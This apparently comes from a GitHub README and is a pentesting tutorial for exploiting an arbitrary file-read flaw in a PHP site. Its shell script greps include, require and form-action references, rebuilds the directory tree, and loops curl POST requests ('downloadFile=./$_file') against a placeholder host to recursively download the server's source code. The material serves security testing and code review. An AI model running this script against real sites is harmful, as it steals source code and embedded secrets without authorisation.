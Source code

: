 # Extract PHP files

<img width="1005" alt="1" src="https://github.com/nowak0x01/Code-Review/assets/96009982/c67fc7ed-2727-44c5-9425-e8ab4dc93d93"><br>

You have discovered a vulnerability that enables you to read internal server files, similar to the `readfile($input)` function in PHP.

You dump the sitemap of your Burp Suite, and then filter all the `.php` files to download them.

However, be aware that these files might also include or reference other `.php` files in various ways, such as through `include`, `require`, `href`, `form action`, `require_once`, comments, etc.

Searching for these references one by one is not the most efficient and can become tedious. In this context, regular expressions (regex) prove to be incredibly useful.


## Example<br>

Currently, you possess knowledge of the files `index.php`, `auth.php`, and `redirect.php` which were extracted from the Burp Suite sitemap.

However, it's crucial to note that these files also reference unknown internal files in various ways, utilizing functions like `include()`, `require_once()`, `Location`, `form action`, and more.

Thankfully, by employing regular expressions (regex), you can easily extract all the referenced files and uncover further insights.

<img width="1005" alt="1" src="https://github.com/nowak0x01/Code-Review/assets/96009982/99b04175-bc22-498c-a63f-a0a566014358"><br>

## Steps
1. Extract all the referenced files.
2. Extract all the directories and create them on your local machine.
3. Download all the files using the wordlist "_php-files."
4. Continuously searching for more referenced .php files, until there are no more .php files left to download.
   
Note: You will see that you will have no more php files to download when the "_php-verify" file is empty or with garbage


```sh
# 1°
grep -aEoR '[^[:space:]]+\.php(?:\/[^[:space:]]+)*' * 2>&- | awk -F'.php:' '{print $2}' | cut -d"'" -f2 | cut -d'"' -f2 | sort -u > _php-files

# 2°
for _dir in $(cat _php-files);do dirname $_dir ;done | sort -u | xargs -I@ sh -c "mkdir -p $PWD/@"

# 3°
for _file in $(cat _php-files);do curl -Lsk https://example.com/ -XPOST -d "downloadFile=./$_file" -o "$PWD/$_file"; done

# 4°
grep -aEoR '[^[:space:]]+\.php(?:\/[^[:space:]]+)*' * 2>&- | awk -F'.php:' '{print $2}' | cut -d"'" -f2 | cut -d'"' -f2 | sort -u > _php-files
rm _php-verify; for _file in $(cat _php-files);do find * | grep -w "$_file" || printf "\n$_file" >> _php-verify ; done
rm _php-check; for _dir in $(grep -aEoR '[^[:space:]]+\.php(?:\/[^[:space:]]+)*' * 2>&- | grep -wEv "_php-files|_php-verify" | awk -F'.php:' '{print $1}' | xargs -I@ sh -c "dirname @" 2>&- | sort -u); for _file in $(cat _php-verify);do printf "\n$_dir/$_file"; done | sort -u >> _php-check
for _dir in $(sort -u _php-check);do dirname $_dir ;done | sort -u | xargs -I@ sh -c "mkdir -p $PWD/@"
for _file in $(sort -u _php-check);do curl -Lsk https://example.com/ -XPOST -d "downloadFile=./$_file" -o "$PWD/$_file"; done
```
